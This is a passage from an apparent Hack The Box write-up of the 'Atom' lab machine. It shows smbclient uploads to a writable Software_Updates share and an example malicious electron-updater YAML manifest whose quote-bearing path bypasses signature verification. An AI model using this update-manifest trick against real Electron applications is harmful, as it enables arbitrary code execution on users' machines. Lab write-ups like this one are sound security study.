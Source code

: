 I then logged into the SMB server again and `put` my file:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ smbclient //10.10.10.237/Software_Updates
Enter WORKGROUP\mac's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Apr 21 21:00:02 2021
  ..                                  D        0  Wed Apr 21 21:00:02 2021
  client1                             D        0  Wed Apr 21 21:00:02 2021
  client2                             D        0  Wed Apr 21 21:00:02 2021
  client3                             D        0  Wed Apr 21 21:00:02 2021
  UAT_Testing_Procedures.pdf          A    35202  Fri Apr  9 12:18:08 2021

		4413951 blocks of size 4096. 1343700 blocks available
smb: \> cd client1
smb: \client1\> dir
  .                                   D        0  Wed Apr 21 21:00:43 2021
  ..                                  D        0  Wed Apr 21 21:00:43 2021

		4413951 blocks of size 4096. 1343670 blocks available
smb: \client1\> put "heedv1 Setup 1.0.1.exe"
putting file heedv1 Setup 1.0.1.exe as \client1\heedv1 Setup 1.0.1.exe (294.2 kb/s) (average 294.2 kb/s)
```

After a short wait, I didn't get a hit on my handler. So I figured this was not the appropriate trigger mechanism.

I spent a bit of time here trying to analyse the `.exe` in Ghidra. This didn't turn out to be necessary, and I eventually gave up on it - but [0xdf](https://0xdf.gitlab.io/2021/07/10/htb-atom.html#heed-re) did some good reversing which would have made the upcoming CVE easier to find.

# Exploiting Electron Builder

I took a closer look at the PDF. I did some googling around User Acceptance Testing, and found little in the way of an exploit.

Then I googled "electron-builder cve". I found this article: [https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)

It suggests a parsing error can lead to a malicious `.exe` being executed by electron. An example malicious update file is provided:

```yaml
version: 1.2.3
files:
  - url: v’ulnerable-app-setup-1.2.3.exe
  sha512: GIh9UnKyCaPQ7ccX0MDL10UxPAAZ[...]tkYPEvMxDWgNkb8tPCNZLTbKWcDEOJzfA==
  size: 44653912
path: v'ulnerable-app-1.2.3.exe
sha512: GIh9UnKyCaPQ7ccX0MDL10UxPAAZr1[...]ZrR5X1kb8tPCNZLTbKWcDEOJzfA==
releaseDate: '2019-11-20T11:17:02.627Z'
```
